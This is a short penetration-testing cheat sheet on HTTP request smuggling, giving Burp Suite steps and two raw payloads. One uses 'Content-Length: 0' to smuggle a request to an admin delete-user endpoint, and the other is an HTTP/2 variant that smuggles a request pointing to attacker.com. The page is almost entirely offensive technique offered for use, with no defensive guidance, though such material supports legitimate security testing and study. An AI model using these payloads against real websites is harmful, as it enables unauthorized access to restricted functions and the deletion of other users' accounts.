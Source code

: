 ```yaml
---
title: HTTP Request Smuggling
desc: 
tags: [HTTP, Request, Smuggling, Web]
alts: []
render_with_liquid: false
---
```


## 1. Content-Length: 0

If the target website ignores the Content-Length, you’re able to access the restricted page by request smuggling.

1. **Prepare the Two Same Requests**

    If you're using Burp Suite, send the target request to **Repeater** twice.

2. **Change the First Request to POST Request**

3. **Set the "Content-Length: 0" in the First Request**

4. **Set the "Connection: keep-alive" in the First Request**

    Now two requests should look like:

    ```sh
    # Request 1
    POST / HTTP/1.1
    Host: example.com
    Cookie: key=value
    Connection: keep-alive
    Content-Length: 0

    GET /admin/delete?username=john
    Foo: x

    # -------------------------------------------------

    # Request 2
    GET / HTTP/1.1
    Host: example.com
    Cookie: key=value
    Connection: close
    ```

5. **Send Requests in Order**

    First off, if you're using Burp Suite, note that **enabling the "Update Content-Length" in the Burp Repeater option.**
    The sequence is Request 1 -> Request 2.

<br />

## 2. HTTP/2 Content-Length: 0

1. **Prepare Request**

    If you're using Burp Suite, note that **disable "Update Content-Length" and enable "Allow HTTP/2 ALPN override" in the Burp Repeater option.**

    The request shoud look like:

    ```sh
    POST / HTTP/2
    Host: example.com
    Content-Length: 0

    GET /exploit HTTP/1.1
    Host: attacker.com
    Content-Length: 5

    x=1
    ```

2. **Send Request**

    Before doing, don't forget to **expand the Inspector on the right in the Repeater and select "HTTP/2".**  
    Now send the request a few times.